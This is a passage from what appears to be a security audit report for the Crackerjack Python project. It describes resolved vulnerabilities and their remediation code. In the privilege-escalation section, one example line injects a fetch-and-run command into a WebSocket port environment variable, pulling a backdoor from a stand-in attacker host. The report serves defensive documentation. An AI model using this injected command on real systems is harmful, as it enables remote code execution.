```python
    resolved = final_path.resolve()
    return resolved.parent == self.progress_dir.resolve()
```

### 4. Privilege Escalation via WebSocket Process (RESOLVED)

**Original Risk**: CVSS 8.8 - Arbitrary command execution
**Status**: ✅ **FULLY RESOLVED**

**Issue**: WebSocket server spawning could be exploited via environment manipulation.

**Attack Vector**:

```python
os.environ["CRACKERJACK_WEBSOCKET_PORT"] = (
    "8675; /bin/sh -c 'curl evil.com/backdoor.sh | sh'"
)
```

**Remediation Implemented**:

```python
async def _spawn_websocket_process(self) -> None:
    # Validate port number
    try:
        port_num = int(self.websocket_server_port)
        if not (1024 <= port_num <= 65535):
            raise ValueError("Port out of range")
    except ValueError as e:
        raise SecurityError(f"Invalid WebSocket port: {e}")

    # Use validated port with secure environment
    self.websocket_server_process = subprocess.Popen(
        [
            sys.executable,
            "-m",
            "crackerjack",
            "--start-websocket-server",
            "--websocket-port",
            str(port_num),
        ],
        env=self._create_secure_subprocess_env(),
        start_new_session=True,
    )
```

### 5. Raw Regex Security Violations (RESOLVED)

**Original Risk**: CVSS 7.5 - Injection bypass potential
**Status**: ✅ **FULLY RESOLVED**

**Issue**: 4 raw regex patterns in input validation without centralized testing.

**Remediation**: All patterns migrated to centralized SAFE_PATTERNS system:
